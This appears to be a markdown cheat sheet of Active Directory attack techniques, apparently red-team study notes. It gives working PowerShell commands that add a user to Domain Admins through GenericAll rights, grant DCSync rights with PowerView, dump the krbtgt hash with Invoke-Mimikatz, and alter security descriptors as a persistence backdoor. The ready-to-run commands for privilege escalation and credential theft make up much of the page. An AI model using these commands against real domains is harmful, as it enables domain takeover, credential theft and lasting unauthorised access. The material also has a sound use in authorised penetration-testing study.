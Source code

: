 ## <span style="color:lightgreen">Abusing Generic-All Access</span>

### <span style="color:#F1C232">Abusing Full-Control</span>
 
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user1' -Verbose
```

# <span style="color:lightblue">ACL - DCSync</span>

* There are even more interesting ACLs which can be abused.

* For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Check if user has replication rights with PowerView
- [x] 2. If no replication rights for the users, add them from a Domain Administrator shell
- [x] 3. Get the hashes of krbtgt or any other user we want

## <span style="color:lightgreen">PowerView</span>

### <span style="color:#F1C232">1. Add Rights for DCSync</span>
 
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=domain,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">2. Execute DCSync</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">ACL - Security Descriptors</span>

* It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
* **Administrative privileges** are required for this.
* It, of course, works as a very useful and impactful backdoor mechanism.
* Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:
```console
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```
* ACE for built-in administrators for WMI namespaces
```console
A;Cl;CCDCLCSWRPWPRCWD;;;SID
```
